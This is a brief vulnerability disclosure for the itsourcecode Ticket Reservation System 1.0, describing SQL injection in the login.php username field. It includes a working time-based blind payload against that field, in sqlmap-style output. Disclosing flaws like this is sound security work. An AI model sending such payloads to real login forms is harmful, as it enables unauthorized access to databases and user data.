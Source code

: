 # Vendor

itsourcecode

# Product

Ticket Reservation System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/09/qrcode.zip

# Description

In the login.php page, because the username field is not strictly filtered, it is possible to achieve SQL injection by constructing a specially crafted data packet.
<img width="1080" alt="image" src="https://github.com/user-attachments/assets/985f1c9a-4cf1-457a-b978-dc2c18492e66">

# Poc
```
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9494 FROM (SELECT(SLEEP(5)))FbJR) AND 'GlKq'='GlKq&password=123123
```
